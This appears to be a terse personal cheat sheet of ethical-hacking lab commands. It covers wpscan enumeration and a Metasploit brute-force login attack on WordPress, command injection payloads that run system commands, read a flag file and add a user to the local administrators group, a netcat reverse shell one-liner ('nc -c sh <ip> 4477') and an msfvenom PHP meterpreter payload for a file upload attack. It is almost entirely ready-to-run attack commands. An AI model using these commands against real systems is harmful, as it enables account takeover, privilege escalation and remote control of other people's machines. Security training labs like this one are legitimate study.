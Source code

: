		wpscan --api-token "" --url http://<ip>:<port>/CEH --plugin-detection aggressive --enumerate vp

	Wpscan and Metasploit

		wpscan --api-token "" --url http://<ip>:<port>/CEH --enumerate u	(enumerate users)

		msfconsole -q
			msf6 > search wordpress_login
			msf6 > use 0
			msf6 auxiliary(scanner/http/wordpress_login_enum) > set rhosts 10.10.1.22
			msf6 auxiliary(scanner/http/wordpress_login_enum) > set rport 8080
			msf6 auxiliary(scanner/http/wordpress_login_enum) > set targeturi http://10.10.1.22:8080/CEH
			msf6 auxiliary(scanner/http/wordpress_login_enum) > set pass_file passwords.txt
			msf6 auxiliary(scanner/http/wordpress_login_enum) > set username admin
			msf6 auxiliary(scanner/http/wordpress_login_enum) > run
		
		wpscan --api-token "" --url "" --enumerate p	(enumerate plugins)
		wpscan --api-token "" --url "" --enumerate t	(enumerate themes)
		    
    # Command Injection	
	Set security to 'low'
	
	| ls (low)
	| ls (medium)
	|ls  (high)

	| hostname
	| whoami
	| tasklist
	| taskkill /PID 3112 /F
	| dir C:\
	| type C:\flag.txt

	| net user
	| net user Test /Add
	| net user
	| net localgroup administrators Test /Add
	| net user
	
	127.0.0.1 && nc -c sh <ip> 4477
	//net user test active:yes

	(now connect to test user with RDP)

    # File Upload
	Low
		msfvenom -p php/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=4477 -f raw > low.php
	